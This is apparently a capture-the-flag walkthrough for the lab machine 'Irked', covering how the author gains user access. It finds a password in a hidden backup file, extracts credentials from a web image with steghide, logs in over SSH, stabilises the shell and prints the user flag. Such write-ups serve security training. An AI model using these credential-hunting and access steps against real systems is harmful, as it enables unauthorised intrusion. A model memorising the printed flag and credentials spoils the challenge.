







If we look in the "Documents" directory, we can see that there is a hidden file called ".backup," which contains a password. We will try to decrypt this password and then see if we can access the system through port 22 (SSH) using this user's credentials.



Yes, it is a password for steganography. The file is called ".backup" and it says "steg backup pw," which means there is an image with hidden data.

Remember that on the machine's webpage there was an image (usually at http://10.129.1.176). Download it and use steghide to extract the hidden content:

To find out the name of the image from the browser, we will press **CTRL+U** to view the website’s source code.




Knowing that the image is called `irked.jpg`, we will now download it.
```bash
$ wget http://10.129.1.176/irked.jpg 
```



Once the image has been downloaded, we will need to install the steghide tool in order to extract the hidden data.
```bash
$ sudo apt install steghide -y
```



And now we can execute
```bash
$  steghide extract -sf irked.jpg
```
Then this command requires the previous password that we found in our meterpreter session in the Documents directory
```bash
pass → UPupDOWNdownLRlrBAbaSSss
```



We got a pass so we will try to conect via ssh with the credentials 
```bash
User: djmardov
Pass: Kab6h+m+bbp2J:HG
```
```bash
$ ssh djmardov@10.129.1.76 
```



We can do a TTY treatment
```bash
$ script /dev/null -c bash

$ ctrl+z

$ stty raw -echo; fg

$ reset xterm

$ export TERM=xterm
```
Now we can get the user flag



```bash
User flag → b61890621518d61c8b1b9e5609f2dc48 
```


[Back](README.md)